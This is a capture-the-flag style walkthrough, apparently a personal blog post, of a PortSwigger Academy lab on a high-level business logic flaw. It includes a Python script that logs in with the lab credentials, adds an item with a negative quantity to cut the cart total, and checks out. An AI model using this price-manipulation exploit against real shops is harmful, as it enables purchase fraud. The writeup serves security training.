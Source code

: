 ```yaml
--- 
title: "High Level Logic Vulnerability"
author: ""
date: 2024-06-01T17:55:47+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
```

--- 
title: "Excessive Trust in Client Side Controls"
author: ""
date: 2024-06-01T16:21:27+01:00
description: ""
draft: false
disableComments: false
categories: []
series: [] #Taxonomy to list "See Also" Section in Opengraph Templates
tags: []
slug: ""
summary: ""
---
#### Entities
Asset: https://0ae4008f04bfe75680e04e27000900d8.web-security-academy.net

#### Enumeration
Access the lab, add the domain to Burp's Target scope and check `Include subdomains`. View `/` route source page and inspect the page, then request all embedded links via Burp proxy using the script below.

```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Specify Variables
base_url = "https://0ae4008f04bfe75680e04e27000900d8.web-security-academy.net"
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Parse Base URL
content = BeautifulSoup(requests.get(base_url).text, 'html.parser')

# Find and Request all href resource
for link in content.find_all('a', href=True):
  full_url = urljoin(base_url,link['href'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")

# Find and Request all src resource
for img in content.find_all('img', src=True):
  full_url = urljoin(base_url,img['src'])
  response = requests.get(full_url, proxies=proxies, verify=False)
  print(f"{response.status_code} {response.url}")
```

![Enumeration](/images/bizlogic2/01-enumerate-high-level-logic-vulnerability.png "Enumeration")  

#### Exploration
Stacking BurpSuite and the Browser with FoxyProxy extension for Burp turned on, perform a user flow for purchasing an item after logging in with the provided user credential  `wiener:peter`.  The `/login` when requested with valid credentials makes a POST request with `csrf`, `username` and `password` parameters.    

![Exploration](/images/bizlogic2/02-explore-high-level-logic-vulnerability.png "Exploration") 

#### Exploitation
Observe a POST request  to `/cart`  with `productId`,`redir`, and `quantity` parameters. When the cart is viewed a GET request is made to `/cart` which returns an ensuing page with a coupon feature that has a `csrf` input tag and a form tag that makes a POST request to `/cart/checkout` to place an order for the item. The subtlety here is that the price is hard-coded and can't be changed but the item quantity can. Typically the total price of item is calculated by multiplying the price and quantity, hence we exploit the quantity parameter with a negative value. Add two items to cart and view the cart, then send these requests to Burp Repeater and manipulate the quantity of the second item to gravely reduce the price of the first item and then purchase the desired item. This exploit can be automated with the script below
```python
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Define Variables
base_url = 'https://0ae4008f04bfe75680e04e27000900d8.web-security-academy.net/'
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

# Get CSRF Token
def get_csrf_token(session, url):
  response = session.get(url, proxies=proxies, verify=False)
  csrf_token = BeautifulSoup(response.text, 'html.parser').find('input', {'name': 'csrf'}).get('value')
  return csrf_token

# Purchase Item
def purchase_item(session, url):
  # Login
  login_url = urljoin(base_url, 'login')
  login_csrf_token = get_csrf_token(session, login_url)
  login_payload = {'username': 'wiener', 'password': 'peter', 'csrf': login_csrf_token}
  login_response = session.post(login_url, data=login_payload, proxies=proxies, verify=False)
  if login_response.status_code == 200:
    # Add first item
    cart_url = urljoin(base_url, 'cart')
    cart_payload1 = {'productId': '1', 'redir': 'PRODUCT', 'quantity': '1'}
    session.post(cart_url, data=cart_payload1, proxies=proxies, verify=False)

    # Add second item
    cart_payload2 = {'productId': '2', 'redir': 'PRODUCT', 'quantity': '-16'}
    session.post(cart_url, data=cart_payload2, proxies=proxies, verify=False)

    # Checkout
    checkout_url = urljoin(base_url, 'cart/checkout')
    checkout_csrf_token = get_csrf_token(session, cart_url)
    checkout_payload = {'csrf': checkout_csrf_token}
    checkout_response = session.post(checkout_url, data=checkout_payload, proxies=proxies, verify=False)
    if checkout_response.status_code == 200:
      print("Purchase successful!")
    else:
      print("Failed to checkout.")
  else:
    print("Failed to log in.")

def main():
  session = requests.Session()
  purchase_item(session, base_url)

if __name__ == "__main__":
  main()
```
![Exploitation](/images/bizlogic2/03-exploit-high-level-logic-vulnerability.png "Exploitation") 

![Solution](/images/bizlogic2/04-lab-solution.png "Solution")   

#### Resources
- https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-high-level
- https://github.com/knoxknot/portswigger/tree/main/business-logic/02-high-level-logic-vulnerability